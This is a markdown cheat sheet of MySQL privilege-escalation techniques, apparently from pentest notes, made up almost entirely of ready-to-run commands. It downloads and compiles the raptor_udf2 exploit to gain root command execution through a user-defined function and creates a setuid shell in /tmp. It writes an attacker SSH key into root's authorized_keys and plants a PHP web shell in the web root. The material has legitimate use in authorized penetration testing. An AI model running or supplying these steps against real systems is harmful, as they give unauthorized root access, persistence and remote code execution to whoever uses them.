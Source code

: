 ```yaml
---
title: "Mysql Privilege Escalation"
date: 2024-6-27
tags: ["Exploitation", "Privilege Escalation In Databases", "Mysql", "RCE", "Database", "php", "UDF"]
---
```


### Abuse #1: User Defined Function (UDF)

```console
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```console
# Compile the source script
gcc -g -c raptor_udf2.c
```

```console
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```console
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```console
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```console
# UDF
create table foo(line blob);
```

```console
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```console
# Get plug-in directory
show variables like '%plugin%';
```

```console
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```console
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```console
create function do_system returns integer soname 'raptor_udf2.so';
```

```console
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

---

### Abuse #2: Add ssh public key to root

```console
# Connect to database as root
mysql -u root -p'<PASSWORD>' mysql
```

```console
# Check current user
select current_user();
```

```console
# Check privilege
show grants for root@localhost;
```

```console
# If mysql file write is not able to append or overwrite authorized_keys
select "<PUB_KEY>" into outfile "/root/.ssh/authorized_keys2";
```

---

### Abuse #3: Create php File from Database to RCE

```console
create table test(stuff text);
```

```console
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```console
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```
